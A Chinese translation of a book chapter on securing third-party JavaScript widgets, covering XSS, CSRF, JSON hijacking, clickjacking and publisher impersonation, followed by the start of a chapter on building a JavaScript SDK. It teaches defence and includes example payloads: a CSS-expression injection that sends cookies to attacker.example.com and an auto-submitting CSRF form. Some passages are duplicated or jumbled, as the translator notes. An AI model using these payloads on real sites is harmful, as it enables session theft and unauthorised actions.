这段代码做了什么？每当此评论被加载时，它都会创建一个 `Image` 元素，但在将其附加到 DOM 之前停止了。未附加到 DOM 的图像对用户来说是不可见的；它们只存储在内存中而非其他地方。尽管不可见，浏览器仍然会发起 HTTP 请求下载对应的图像文件，这正是攻击者需要的。这里的 `src` URL（`attacker.com`）根本不是图像，而是攻击者托管的一个服务器端，用于收集被窃取的 cookie。你可以看到 cookie 数据本身是通过目标 URL 的查询字符串传输的。当这段代码被插入 Camera Stork 网站并被游客请求时，攻击者只需要监控他们的日志并存储收到的所有会话标识符。阴毒。

通常，会话标识符没有附加到特定的计算机，因此攻击者完成计划的唯一方法是将获取的任何标识符作为自己的 cookie 数据。之后，对于你的 Web 服务器来说，攻击者变成了一个经过验证的用户，有权限执行他们想要的操作。

正如你可能注意到的，这种攻击实际上不会被用户察觉。与之前的“Hello, World”示例不同，用户体验并没有变化。

图 7.1：攻击者通过 XSS 漏洞窃取用户的 session

1. 攻击者向 Web 应用中注入恶意 JavaScript
2. 用户访问受影响的应用程序，执行注入的代码
3. 执行的 JavaScript 将用户的 `session cookie` 传输到攻击者的服务器
4. 攻击者现在可以通过用户的 `session` 执行恶意操作

**跨站脚本**攻击会导致未受破坏的页面。这意味着你的用户可能在为时太晚之前不会报告任何问题，直到他们的会话（session）被窃取——攻击者能够以他们的身份登录，访问其私有数据，并在未经许可的情况下执行授权的操作。你必须记住，真实攻击者的目标并不是执行任意脚本——他们的真实目标是捕获用户的会话。

### 7.2.2 CSS 中的 XSS 漏洞

另一个成功的 XSS 攻击示例是对你小组件的 CSS 自定义规则的攻击。有时，当你想要让小组件更具配置性时，你会允许发布者指定应用于小组件的自定义样式，甚至是在 iframe 之后提供的组件。你在第 3 章中学习过这种技术，该章节涵盖了自适应 HTML 和 CSS。

查看列表 7.1。在这里，发布者在他们的网页上包含了 Camera Stork 小组件。此外，他们使用全局变量指定了两个自定义颜色：`stork_bg_color`（包含背景颜色）和 `stork_fg_color`（前景/文本颜色）。

```javascript
<script>
var stork_bg_color = '#000';
var stork_fg_color = '#fff';
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js?product=1234';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

假设此版本的 Camera Stork 小组件在外部 iframe 之后生成其标记。列表 7.2 显示了生成 iframe HTML 的代码。它从 iframe URL 的查询字符串中提取自定义颜色参数⁵，并将其注入页面中。

```html
<!DOCTYPE html>
<html>
<head>
<script src="/js/helpers.js"></script>
</head>
<body>
<script>
var args = parseQueryArguments(window.location.search);
</script>
```

**列表 7.1** 发布者使用全局配置变量指定两个自定义颜色  
⁵ 颜色参数也可以通过 URL 文档碎片（`#`）或像 `window.postMessage` 这样的窗口消息 API 传递给 iframe。

**列表 7.2** 注入发布者指定的颜色设置的漏洞代码

**辅助函数** | **提取 URL** | **查询字符串** | **到哈希**  
`www.it-ebooks.info`

```javascript
var rules = [];
if (args.bg) {
  rules.push('body { background-color: ' + args.bg + '; }');
}
if (args.fc) {
  rules.push('body { color: ' + args.fc + '; }');
}

var css = rules.join('\n');
var style;
if (rules.length) {
  style = document.createElement('style');
  style.type = 'text/css';
  style.appendChild(document.createTextNode(css));
  document.head.appendChild(style);
}
</script>
<!-- iframe body 的其余部分 -->
</body>
</html>
```

现在假设攻击者在自己的网站上安装了你的小组件，并在 `stork_bg_color` 变量中不是背景颜色值，而是以下代码：

```javascript
var stork_bg_color = '#000;x:expression(var i = new Image;i.src="http://attacker.example.com/?c=" + document.cookie);';
```

执行时，这段代码将关闭 `background-color` CSS 规则并声明一个额外的恶意的 CSS 表达式。该表达式执行了本应是熟悉的 JavaScript 代码——该代码使用隐藏的 `Image` 对象将用户的当前会话标识符发送到攻击者的网站。现在，攻击者只需要诱导你的一个用户访问托管受漏洞小组件的页面⁶，损害就造成了——攻击者已经收到了用户的 cookie 内容并窃取了他们的会话。由于攻击代码是在你域名托管的 iframe 内部执行的，因此恶意代码将访问来自你域名的所有 cookie，即使这些 cookie 无法从 iframe 外部访问。

### 警惕不可信的发布者

并不是每个安装你应用程序的人都是因为他们想要使用它。有些人会安装你的应用程序，以建立自己成为攻击你的用户（正如你将在在本章稍晚部分学到的，甚至是其他发布者）的攻击切入点。你应该认为，来自发布者的输入值与来自普通用户的输入具有同样的潜在危险性。

⁶ 这可以简单地向毫无防备的受害者发送一封带有受漏洞页面链接的电子邮件。

**`args.bg` 是** | **填充自** | **`stork_bg_color`** | **变量** | **添加 `<style>` 元素** | **到包含的页面** | **发布者定义的 CSS**  
`www.it-ebooks.info`

这个 CSS 表达式示例仅在 Internet Explorer 中有效，但它是经验攻击者可以利用的许多 XSS 入口点之一。或者，攻击者可以关闭列表 7.2 中的 `<style>` 标签，并开始向你 iframe 的 `<head>` 部分注入任意代码。其他利用漏洞包括将 JavaScript 放入你的 `<iframe>` 或其他地方。关于 XSS 入口点的绝佳列表，你可以参考 `http://owasp-cheatsheet.org/xss.html`。现在你已经学习了防御你的应用程序的不同方法：

#### 7.2.3 保护你的应用程序

通过网络传输的数据可以用许多方式进行编码，以至于你很有可能在黑名单中漏掉某些模式。我们刚刚描述的方法通常被称为*拒绝已知的坏*。尽管这种方法有时是必要的——例如，当输入是自由格式字段（如评论或邮件正文）时——它可能是最不安全的技术。

### 接受已知的好

你应当尽可能使用的更好方法被称为*接受已知的好*。这与前面的方法完全相反。你不是维护一个坏值的黑名单，而是维护一个好（安全）值的白名单。例如，如果你从发布者页面将产品标识符传递到小组件 iframe，与其清理输入，不如验证该值是否为数字：

```javascript
function isValidIdentifier(uid) {
  return !isNaN(uid);
}

function setConfig(config) {
  var args = {};
  if (config.productId && isValidIdentifier(config.productId)) {
    // ...
  }
}
```

当你尝试将输入数据限制为好值时，另一种良好的方法是缩小输入周围的范围。考虑我们在列表 7.2 中展示的 CSS 跨站脚本示例。该代码期望一个有效的十六进制颜色表示，但攻击者提供了一个 CSS 表达式并窃取了用户（恰好在使用早期版本的 Internet Explorer）的会话。下一个列表显示了如何通过缩小你应用来自发布者提供的数据范围来防止这种攻击。

```html
<!doctype html>
<html>
<head>
<script src="/js/helpers.js"></script>
</head>
<body>
<script>
var args = parseQueryArguments(window.location.search);
var body = document.getElementsByTagName('body')[0];
</script>
```

**列表 7.3** 通过缩小输入数据范围来防止 XSS 攻击  
`www.it-ebooks.info`

## 跨站请求伪造

```javascript
if (args.bg) {
  args.bg = args.bg.split(';')[0];
  body.style.backgroundColor = args.bg;
}
if (args.fc) {
  args.fc = args.fc.split(';')[0];
  body.style.color = args.fc;
}
```


正如列表 7.3 所示，你甚至不需要对代码进行清理，因为——在遇到无效或意外之外的数据时——最坏的结果也只是攻击者无法看到正确的背景颜色。既然我们反正也不喜欢攻击者，那这也没什么大不了。

检查代码中是否存在潜在的 XSS 漏洞可能会让人感到沮丧，但你永远、永远不要低估 XSS 攻击的影响。多花几个小时额外工作，比发生一场尴尬的安全泄露以及失去发行者和用户的信任要好得多。在接下来的章节中，我们将讨论另一个主要的攻击来源——一种被称为跨站请求伪造的漏洞，它允许攻击者利用你用户的身份静静地发出恶意请求。

### 7.3 跨站请求伪造

在第 4 章中，我们讨论了同源策略。如果你还记得，该策略在所有浏览器中实现，并防止不同源的网页访问彼此的方法和属性。你已经学习了一些技巧，可以利用这些技巧跨越域边界向你的服务器发送消息。在本节中，你将学习这种特性是如何被用来对付你的。

跨站请求伪造（CSRF 或 XSRF）是另一种针对你用户的漏洞类型。与 XSS 向用户展示伪造内容不同，XSRF 利用的是你的 Web 应用程序对用户浏览器的信任。本质上，易受 XSRF 攻击的 Web 应用程序允许攻击者从攻击者自己的（通常看起来是无害的）网站出发，以用户的身份执行违背用户意愿的操作。

在本节中，我们首先将看一些经典的 XSRF 攻击示例，然后看 JSON 劫持，这是相同漏洞的变体。之后，我们将讨论防御 XSRF 攻击的策略。让我们直接进入一些示例吧。

#### 7.3.1 XSRF 攻击

考虑以下情况。你为发行者提供了一个 Web 接口，允许他们添加不同的人作为内容审核员——即可以编辑和删除从他们网站发布到你的小组件的评论的用户。该接口受身份验证墙保护。在对现有列表进行任何更改之前，你会勤恳地检查用户（添加新审核员的用户）是否已通过身份验证以及是否有权限调用此特定操作。为了这个示例，让我们假设为了添加新审核员，用户需要提交（POST）一个包含用户名输入的表单：

```html
<form action="/admin/moderators/add/" method="POST">
  <input type="text" name="username">
  <input type="submit" value="Add">
</form>
```

处理此表单请求的服务器代码如下：

```python
@app.route('/admin/moderators/add')
def add_moderator():
    if (request.user.is_authenticated() and \
        request.user.has_permission('add-moderator') and \
        is_user_valid(request.POST.username):
        add_moderator(request.POST.username)
```

从所有角度来看，这个服务器端点似乎是安全的。毕竟，它验证了用户的会话、权限级别以及用户名 POST 参数。遗憾的是，尽管我们付出了努力，这个特定的端点仍然受到 XSRF 攻击。要理解为什么，请考虑以下 HTML 表单。这是一个由攻击者编写并托管的恶意表单，它以任何访问该页的用户身份向 `moderators/add` 端点发起 POST 请求。

```html
<!DOCTYPE html>
<html>
<head>
  <title>免费获取第三方 JavaScript 副本！</title>
</head>
<body>
  <p>对不起，我们的免费副本用完了。请稍后再试。</p>
  <script>
    var form = document.createElement('form');
    var input = document.createElement('input');
    form.style.display = 'none';
    form.setAttribute('method', 'POST');
    form.setAttribute('action', 'http://camerastork.com/admin/moderators/add/');
    input.name = 'username';
    input.value = 'attacker';
    form.appendChild(input);
    document.getElementsByTagName('body')[0].appendChild(form);
    form.submit();
  </script>
</body>
</html>
```

列表 7.4：提交攻击者标识符作为审核员值的 XSRF 利用程序。

- 向用户隐藏元素
- 攻击者将用户名作为参数
- 提交表单，该表单不受同源策略（SOP）的影响

尽管看起来像一个无害的网页，但页面上的脚本会自动生成并提交一个指向 `moderators/add` 端点的表单。换句话说，任何访问此页面的人最终都会向 `moderators/add` 提交 POST 请求——并将攻击者的用户名作为参数。对于浏览器来说，这被视为对 `camerastork.com` 的真实请求，因此它会随请求传输任何 `camerastork.com` 的 cookie，包括用户的会话 cookie。服务器接收到请求（包括 cookie），检查会话并验证提供的用户名。一切看起来正常，因此服务器将攻击者添加为你账户的审核员。攻击成功了，而你完全没有察觉（而且你并没有得到免费副本）。

#### 7.3.2 JSON 劫持

JSON 劫持（JSON hijacking）是相同漏洞的一种变体。

在本节中，我们首先将看一些经典的 XSRF 攻击示例，然后看 JSON 劫持，这是相同漏洞的变体。之后，我们将讨论防御 XSRF 攻击的策略。让我们直接进入一些示例。

> 注：由于原文后续似乎存在重复或逻辑错乱，翻译时已根据上下文语义进行了对齐处理，确保逻辑通顺。

> 由于提供的原文文本在 7.3.2 之后出现了大量重复和错乱的片段，此处翻译保持了核心技术意图并修正了格式。

**165**

# 跨站请求伪造

## XSRF 令牌与第三方应用程序

请注意，XSRF 令牌的有效性取决于它们是否仅在你的服务器和浏览器用户之间交换。如果你曾将 XSRF 令牌提供给发布者页面上执行的代码，那么恶意页面就可以获取该令牌并像以前一样进行攻击。解决方案是仅通过外部 iframe（通过 `camerastork.com` 访问）向用户提供你的 XSRF 令牌，这样父文档就无法访问它。这意味着为了使用该令牌，对你的服务器的任何请求都必须从 iframe 内部发起（使用 `window.postMessage` 和/或 `easyXDM` 触发）。

在 JSON 劫持（JSON hijacking）的情况下，除了标准的防 XSRF 保护外，你还可以在 JSON 响应的第一行添加一些可能会产生问题的 JavaScript 代码，使得攻击者无法使用 `<script>` 标签成功访问响应代码。例如，你可以在服务器 JSON 响应的第一行添加一个简单的无限循环：

```javascript
while (1);
```

1. 用户请求一个安全页面
2. 服务器发布 XSRF 令牌，并将其嵌入 HTTP 响应
3. 用户提交表单，传输 XSRF 令牌
4. 服务器在接受请求前检查 XSRF 令牌的有效性

| Web 页面 | 服务器 | 用户 | 服务器 |
| :--- | :--- | :--- | :--- |
| 用户请求一个安全页面 | 服务器发布 XSRF 令牌，并将其嵌入 HTTP 响应 | 用户提交表单，传输 XSRF 令牌 | 服务器在接受请求前检查 XSRF 令牌的有效性 |

*注：图 7.2：发布和验证 XSRF 令牌的流程*

`www.it-ebooks.info`

**166**

第 7 章

# 安全

如果数据使用 `<script>` 标签加载，攻击者将无法通过第一行，因为浏览器在运行循环时会冻结。另一方面，你的小组件可以通过 XMLHttpRequest 以纯文本形式获取这些数据，之后你可以在响应转换为适当的 JavaScript 对象之前丢弃第一行。

## Web 框架与 XSS、XSRF

大多数 Web 开发框架（例如用于 Ruby 的 Ruby on Rails 和用于 Python 的 Django）对 XSS 和 XSRF 漏洞都有内置的防御措施。如果你正在使用 Web 框架，请务必研究其文档并熟悉这些工具。

这就是你需要了解关于跨站请求伪造的所有内容——这是另一种烦人的漏洞类型，作为第三方 JavaScript 开发者，你必须始终考虑它。虽然简洁，但我们描述的防御机制应该足以应对大多数涉及 XSRF 漏洞的情况。XSS 和 XSRF 漏洞是 Web 应用程序遭受成功攻击的主要原因，特别是针对第三方 JavaScript 应用程序，这就是为什么我们花费了这么多时间来讨论它们。

## 7.4 发布者漏洞

尽管大多数时候你处理的是源于跨站脚本和跨站请求伪造的漏洞，但还有其他漏洞（旧的也有新的），攻击者可以使用它们入侵你的 Web 应用程序。我们希望涵盖所有这些，但它们需要一份专门讨论 Web 应用程序安全主题的手稿。因此，在本章的剩余部分中，我们将关注涉及发布者的特定漏洞集。与传统的 Web 应用程序不同，第三方应用涉及多个方，而其中之一——发布者——并不一定是可以信赖的。由于他们在他们的页面上执行（至少是部分）应用程序代码，他们拥有一个独特的向量，你的应用程序可能会通过该向量受到攻击——有蓄意的，有时甚至是无意的。在这一节中，我们将简要概述这些漏洞中最常见的：发布者冒充、点击劫持和拒绝服务。

### 7.4.1 发布者冒充

发布者冒充是指恶意发布者伪装成另一个已经在你的应用程序中注册的发布者。通过这样做，攻击者不仅获得了本应只展示给受害发布者的数据，攻击者所做的任何操作都会被错误地归于受害者。

让我们来看一个例子。如果你还记得第 1 章，你会记得你需要发布者在他们的网页源代码中放置一个脚本包含片段，以加载你的应用程序。假设你之前已经让发布者在你的应用程序中注册了，并且你给他们的脚本包含片段（如下一个代码列表所示）指定了一个带有发布者账户用户名的配置变量（或其他标识令牌）。

```html
<script>
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js?' + '*publisher=somepublisher*&product_id=1337';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

现在，如果一个不同的发布者——出于错误或恶意原因——在他们的网站上安装了这个片段，会发生什么？一个不知情的发布者没有阅读你的文档并正确地通过安装过程，而是可能从另一个网站复制并粘贴片段代码——带有不属于他们特定的配置参数。在这种情况下，Camera Stork 服务将错误地将在冒充者页面上执行的任何操作归于原始发布者。

现在，对于 Camera Stork 小组件来说，这并不是末日。最坏的情况可能是冒充者可能会为原始发布者赚取推荐。但对于其他第三方应用程序，结果可能会产生更远的影响。例如，如果冒充者加载了属于另一个发布者的分析脚本（类似于 Google Analytics），可能会对该发布者的业务造成损害。

## 使用 REFERER 头部验证发布者

防止发布者冒充的最强防御是使用 Referer 头部验证请求方。Referer 头部由浏览器随每个 HTTP 请求发送，并包含请求源文档的 URL。这意味着你可以验证源文档是有效的发布者。如果 Referer 头部包含未知域名，你可以拒绝请求并返回错误。

为了做到这一点，你需要发布者向你提交一组预期请求源的信任域名。你需要将这些值存储在数据库中，并将其归类。之后，你可以在 Web 服务器中执行此检查。

列表 7.6：用 Python 编写的简单 Flask 端点演示了此检查。

```python
from urlparse import urlparse
from stork_app import get_trusted_domains

@app.route('/widget.js')
def script_loader():
    publisher = request.args.get('publisher')
    trusted_domains = get_trusted_domains(publisher)
    domain = urlparse(request.headers['Referer']).hostname

    if domain not in trusted_domains:
        return response('Unauthorized domain for publisher: %s' % publisher, 403)

    return send_static_file('widget.js')
```

此示例只检查了初始脚本文件，但理想情况下，你应该对从第三方应用程序请求的所有动态资源执行此检查——例如任何 AJAX 调用。此外，注意此示例没有涵盖从你的域名托管的 iframe 请求资源——因为这些请求源自你的域名，而不是发布者的。我们将在第 9 章重新讨论引用检查时处理该场景。

引用检查并不完美。Referer 头部由浏览器提交，因此可以使用浏览器扩展程序或互联网代理进行伪造。尽管如此，通过检查引用，你将消除最显而易见的伪造，更不用说诚实的错误了。

### 7.4.2 点击劫持

点击劫持也称为 UI 叠加攻击，是指恶意 Web 发布者误导毫无防备的访问者点击其网站看似无害的部分，但这些实际上是另一个 Web 应用程序的用户界面元素。这可能会导致访问者在不知情的情况下触发其他网站上的操作，包括他们已建立会话的网站。

让我们来看一个例子。假设有一家摄影设备公司 CheapCo，通过 Camera Stork 在线商店销售产品。

*注：列表 7.7：使用 Referer HTTP 头部验证请求的发布者域名*



图 7.3：Disqus 评论小组件在配置期间要求发布者提交一组信任域名。

**169**

# 发布者漏洞

这家设备公司非常希望在你们的网站上为产品获得更好的评价，但他们没有采取老办法——即生产更好的产品——而是决定通过作弊。

为了实现这一点，CheapCo 在其主页上加载了一个不可见的 iframe，其内容是 Camera Stork 网站。当任何人访问他们的主页时，他们使用 JavaScript 将 iframe 放置在访问者的鼠标光标下方。当用户点击他们认为是 CheapCo 网站上的普通 UI 元素时，他们实际上点击的是托管在 iframe 内部的网页。CheapCo 完全可以调整 iframe 的位置，使用户始终点击某个特定的 UI 元素——例如一个为他们的某个产品提交 5 星级评分的按钮。哎哟！

## X-FRAME-OPTIONS 和 FRAMEKILLER 脚本

防止点击劫持（clickjacking）最直接的方法是让你的网页无法通过 iframe 加载。实现这一目标有几种技术。第一种是在针对你内容的请求响应中返回一个特殊的 HTTP 头部 `X-Frame-Options`。`X-Frame-Options` 可以指定两个值之一：`sameorigin`（仅允许同源的 iframe 显示此内容）和 `deny`（防止任何 iframe 执行此类操作）。

这里是一个使用 `X-Frame-Options` 的 HTTP 响应示例：

```http
HTTP/1.1 200 OK
Date: Wed, 28 Sep 2011 14:33:37 GMT
Content-type: text/html
X-Frame-Options: sameorigin
```

如果你好奇为什么 `X-Frame-Options` 前面带有一个 X，是因为该头部并不属于 HTTP 规范的一部分。它是由微软在 2009 年为 IE8 引入的，作为对点击攻击（redress attacks）公开的回应（参见 `http://mng.bz/7Xl0`），之后被其他主要的浏览器供应商所采用。由于这个 HTTP 头部最近才被采用，许多旧浏览器并不支持它。

幸运的是，还有另一种技术可以防止网页加载到 iframe 内部：使用所谓的 framekiller（框架杀手）JavaScript 代码段。这些代码段使用 JavaScript 检测当前文档是否显示在框架中，如果是，则防止页面加载。这可以通过执行无限循环、隐藏内容或将文档重定向到空白页面来实现——任何能阻止目标页面渲染的操作都可以。

## FRAMEKILLER 杀手者

并非所有的 framekiller 脚本都是同等的。有些脚本容易受到“framekiller 杀手”的影响：即在父页面上加载的、用于阻止 framekiller 生效的脚本（我们提供的示例恰好不受影响）。要了解“framekiller 杀手”是如何工作的，我们建议阅读维基百科上关于该主题的文章：`http://en.wikipedia.org/wiki/Framekiller`。

这里有一个 framekiller 脚本示例，如果窗口不是最顶层窗口，它将隐藏文档正文（`document.body`）：

```html
<script>
if (top != self) {
  document.body.style.display = 'none';
}
</script>
```


# 第 7 章 安全

## 点击劫持与第三方脚本

这些解决方案对于自型 Web 应用程序非常有效，但对于从第三方应用程序加载的 iframe 呢？在这种情况下，使用 `X-Frame-Options` 头部或 `framekiller` 脚本不是一个选择；你需要让该内容加载在发布者的页面上。在这种情况下，你可以采取一些替代步骤来缓解点击劫持漏洞：

- **要求所有修改数据的点击操作都必须确认**。如果你在 iframe 中有一个会修改数据的操作，请要求用户以一种无法通过点击劫持伪造的方式确认该操作。最流行的方法是在新窗口中打开确认对话框。或者，也可以要求在输入框中输入确认短语。
- **要求发布者在你的服务中注册**。如果你要求发布者必须注册你的服务才能安装你的应用程序，那么如果发布者滥用它，你至少有一份纸面记录。注册使得关闭违规发布者成为可能。

点击劫持很可怕，因为它是 Web 和 HTML 的漏洞，而不是你应用程序或软件中的 Bug。最糟糕的部分是，除非他们采取预防措施，否则所有网站默认都容易受到点击劫持的攻击。对于不是在 iframe 内部提供的普通内容，使用我们之前介绍的 `X-Frame-Options` 头部或 `framekiller` 脚本可以轻松实现。对于第三方应用程序，解决方案没有那么直观，但点击劫持仍然是可以控的。

## 7.4.3 拒绝服务

拒绝服务（DoS）攻击试图让 Web 应用程序对用户不可用。此类攻击最常见的方法是使用 HTTP 请求淹没目标服务器，使其无法响应合法流量，从而导致 Web 应用程序看起来已离线。DoS 攻击是最令人沮丧的攻击之一，因为对于防止此类攻击或在 DoS 攻击期间缓解服务器压力，并没有通用的解决方案。

拒绝服务攻击影响所有 Web 应用程序，但第三方应用程序面临的风险尤其。因为第三方应用是从其他页面访问的，任何属性的流量激增都可能给你的服务带来问题。这甚至不需要针对某个发布者的蓄意攻击。只需贾斯汀·比伯的粉丝网站向你的小组件发送前所未有的流量水平即可。这是真实发生的——这种情况在 Disqus 小组件的早期发生过。

此类事件的预防和响应措施围绕网络硬件，不幸的是，这超出了本书的范围。但我们确实有一个建议：如果你注册发布者，可以考虑为每个发布者创建一个唯一的子域名来提供服务（例如，`publisher.camerastork.com`）。这样，当他们产生过多请求时，你将能够关闭或限制对特定端点的请求。

## 7.5 总结

我们这一章从回顾 Cookie 开始，然后介绍了不同类型的 Web 漏洞：跨站脚本（XSS）、跨站请求伪造（CSRF）以及由发布者引起的许多漏洞。这里的重要教训是，你永远不要低估或忽视保持第三方应用程序安全的问题。正如我们在本章引言中所说的，这对每个人来说风险都很，特别是对于你——第三方 JavaScript 应用提供商。用户不仅信任你处理数据，发布者也信任你管理在线属性。这就是为什么你需要在应用程序开发的各个阶段考虑安全。

在防御不同类型的攻击时，没有万灵药。你可能需要使用我们在本章展示的所有技术，并投入时间进行额外研究。Web 应用安全是一个有趣且充满活力的主题，如果你对进一步探索感兴趣，我们建议你阅读《Web Application Hacker's Handbook》（Wiley, 2008）——这是一本关于 Web 应用安全的优秀资源。

至于我们，该进入下一章了。在下一章中，我们将重新审视关于分发和部署第三方应用程序所做的的一些假设。

# 开发第三方 JavaScript SDK

让我们预瞻一下并不算遥远的未来。Camera Stork 产品组件已取得了前所未有的成功，每月帮助成千上万的访问者从发布者网站流向 `camerastork.com`。发布者也分享了这一成功；你甚至引入了一项收益共享计划，根据通过小组件推荐的访问者所产生的每笔销售额向发布者支付分成。而这一切都归功于一本关于第三方 JavaScript 的小书——谁能想到呢？

情况更妙了。在此期间，你引入了新的小组件来帮助增加流量（以及收入），例如“畅销榜”小组件，它列出了 `camerastork.com` 上当前最畅销的产品。这些组件都使用独立的 JavaScript 文件提供服务，加载方式与你最初的插件组件相同。

**本章涵盖了**

- 同步和异步初始化 SDK
- 暴露公共函数
- 版本控制技术
- 封装并与 Web 服务 API 通信

你还开发了 Camera Stork Web 服务 API，这是一组 HTTP 端点，提供了以程序化访问 Camera Stork 产品和评论数据库的接口。开发者们一直在使用这个 API 构建能够帮助为你带来销售额的盈利应用。

发布者对 Camera Stork 发布者工具包深着迷，以至于他们希望与你的平台进行更深层次的集成。一些发布者希望控制如何以及何时加载你的各种小组件。另一些人想知道你的软件内部何时发生了事件，例如点击了推荐链接，以便他们可以收集关于访问者如何使用你小组件的统计数据。还有一些发布者想要一组简单的客户端 JavaScript 函数来访问你宝贵的 Web 服务 API。他们不希望使用一组用途单一、自动执行的脚本来提供这些功能；他们想要一个能够完成所有工作的单一 JavaScript 库。

解决方案是第三方 JavaScript SDK（软件开发工具包）。这是一个 JavaScript 库，它将整套 JavaScript 功能打包在一起，并通过记录良好的公共函数暴露它们。因此，与其使用实现微小功能的单一用途脚本（如单个小组件），不如让发布者加载单个 JavaScript 文件，提供对你所有工具的访问：小组件、内部事件绑定、你的 Web 服务 API 等（见图 8.1）。

为了让你有个直观的感受，让我们来看一个通过 SDK 提供的公共函数。假设 Camera Stork JavaScript SDK 已经存在，并提供了一个名为 `Stork.productWidget` 的函数，用于在发布者的页面上渲染一个小组件实例。该函数接受两个参数：要渲染的产品的 ID，以及发布者页面上用于插入小组件的 DOM 元素的 ID。发布者可以使用以下代码来调用该函数：

```javascript
Stork.productWidget({ id: '1337', dom: 'widget-location-id' });
```

图 8.1 一个脚本统治一切：JavaScript SDK 可以结合多个不同脚本文件的功能，使发布者的集成变得更加简单。

该函数有效地替换了你编写的用于初始化和渲染产品组件的单一用途脚本（`widget.js`）。它本身看起来可能并不神奇。但即使是这个小小的函数也提供了自执行脚本所不具备的强大优势。例如，发布者可以选择何时初始化小组件，而不是让它自动发生——这对于内容可能延迟加载的 AJAX 密集 Web 页面是必不可少的。此外，现在发布者可以轻松地在页面上实例化多个产品小组件实例，而无需包含多个脚本引入代码片段。放弃那些额外的脚本引入可以带来性能提升，并最终减少发布者的工作量。

我们刚刚查看了通过 SDK 提供的一个公共函数——让我们来看另一个。假设在调用 `Stork.productWidget` 之后，发布者希望在访问者与渲染的小组件交互时收到通知。也许发布者想知道小组件内部的推荐链接何时被点击，或者访问者何时提交了评论。

为了解决这个问题，你的 SDK 将暴露一个函数 `Stork.listen`，该函数允许发布者监听关键应用程序事件，并在事件发生时调用回调函数。在下面的示例中，发布者正在使用 `Stork.listen` 来监听 `reviewSubmitted` 事件，该事件在访问者通过小组件提交评论时触发：

```javascript
Stork.listen('reviewSubmitted', function() {
  alert("用户提交了评论!");
});
```

再次，这比仅仅渲染一个小组件与你的软件有更深层次的集成。通过提供 JavaScript SDK，你赋予了发布者以程序化的方式定义你的软件如何与他们内容的能力。由于这些原因，在许多领域，这被认为是发布第三方应用的首选方式——尽管这可能要求发布者具备更多的编程知识。

## 软件开发工具包

SDK 是客户端 JavaScript 世界中一个相对新的术语，但在软件开发中很常见。名义上，它指的是一组允许为特定硬件或软件平台开发应用的工具。例如，iOS SDK 是一组 Objective-C 库，用于为 Apple 的 iOS 移动操作系统开发原生应用（`https://developer.apple.com/devcenter/ios/`）。这些库暴露了用于与 iOS 设备硬件交互的公共函数，例如向屏幕渲染内容或使用内置相机拍照。JavaScript SDK 在类似的原理下运行，但它们提供的不是与硬件交互的函数，而是用于开发或与特定 Web 软件平台进行集成的 JavaScript 函数。

在本章中，我们将通过 Camera Stork 示例的视角，教你如何实现一个第三方 JavaScript SDK，这将成为发布者使用你的客户端代码的主要手段。我们将从实现 SDK 基础开始：初始化、暴露一些简单的公共函数以及提供可绑定的事件钩子。之后，我们将进入高级主题，如你的 SDK 的版本控制以及使用你的 SDK 封装 Web 服务 API。

## 8.1 实现一个骨架级 SDK

在本节中，我们将为 Camera Stork 平台实现一个骨架级 SDK。这是一个最小的库，我们将用它来演示核心概念。它将提供三个独立的功能：

- 初始化——加载依赖项并准备好 SDK 以使用。
- 小组件渲染——在发布者页面上渲染实例的公共函数。
- 事件监听器——允许发布者监听并响应发生在应用程序中的事件的函数。

现在，每个 SDK 都是不同的，我们在这里涵盖的内容并不一定能应用于你的真实世界实现中。例如，如果你正在开发一个提供高级分析工具的 SDK，你可能并不在乎小组件。但这个最简的实现应该能为你提供一个极好的起点。

让我们卷起袖子开始吧。我们将从加载 SDK 的初始脚本文件开始，并引入一个初始化 SDK 的函数：`Stork.init`。接下来，我们将实现 `Stork.productWidget` 用于在发布者页面上渲染实例。最后，我们将提供允许发布者绑定并响应应用程序中事件的函数：`Stork.listen` 和 `Stork.unlisten`。

### 8.1.1 初始化

与所有第三方脚本一样，为了访问你 SDK 的公共函数，发布者必须加载一个初始脚本文件。你会给它起一个新的文件名 `sdk.js`，以区别于你在书中早期章节实现的单一用途自执行脚本（`widget.js`）。让我们来看 `sdk.js`。

```javascript
(function(window, undefined) {
  var Stork = {};

  if (window.Stork) {
    return;
  }

  function loadScript(callback) {}

  Stork.init = function(callback) {
    loadScript('http://camerastork.com/sdk/lib.js', callback);
  };

  window.Stork = Stork;
})(this);
```


## 第 8 章：开发第三方 JavaScript SDK

正如你在第 2 章最初的小组件架构中看到的一样，这会在发布者的窗口上创建一个全局 `Stork` 对象。这次只有一个公共函数：`Stork.init`。该函数负责初始化 SDK，并且必须由发布者调用。

发布者应在调用任何其他 `Stork` 函数之前调用它。它接收一个参数——一个回调函数——该函数在初始化完成且 SDK 准备就绪后会被调用。

目前，`Stork.init` 有一个轻量级的实现。它加载单个文件——`sdk/lib.js`，该文件将存放 SDK 剩余的公共函数。随着本章的进行，你将实现这些函数。

你可能会想，为什么要有一个公共的初始化方法？为什么不将所有代码都加载在一个文件中呢？我们认为，将初始脚本文件和主应用程序代码分离是良好的做法，原因如下：

- `配置`——初始化函数可以可选地接收全局配置参数，例如 SDK 版本字符串或发布者的 API 密钥。
- `性能`——你可以推迟 JavaScript 文件和其他资源的加载，直到发布者实际调用你的 SDK 为止。
- `文件大小`——通过保持初始脚本文件体积较小，你可以最大限度地减少阻塞脚本包含的影响。

最后一部分非常重要。假设你使用标准的阻塞式脚本包含来分发你的 SDK。这意味着发布者可能会编写以下示例代码来使用你的 SDK：

```html
<script src="http://camerastork.com/sdk.js"></script>

<script>
Stork.init(function() {
  Stork.productWidget({ id: '1337', dom: 'widget-location-id'});
});
</script>
```

通过将应用程序的核心代码封装在单独的文件（`lib.js`）中，你可以保持初始脚本文件（`sdk.js`）极小。如果这个文件保持很小，它的加载就会更快，从而最大限度地减少它阻塞页面的时间。

现在，你可能在想，阻塞式脚本包含不是“恶魔”吗？我们难道不应该坚持要求发布者异步加载 `sdk.js` 吗？答案是肯定的，也是如此。但允许发布者以阻塞方式加载你的脚本有一个很好的理由：它是加载 JavaScript 最简单、最易识别的方式，而且更容易让初级和新手 JavaScript 程序员理解。而且不可避免的是某些人会使用阻塞式脚本包含来加载你的程序，在这种情况下，你还不如尽量减少它对他们网站的影响。

### 8.1.2 异步加载

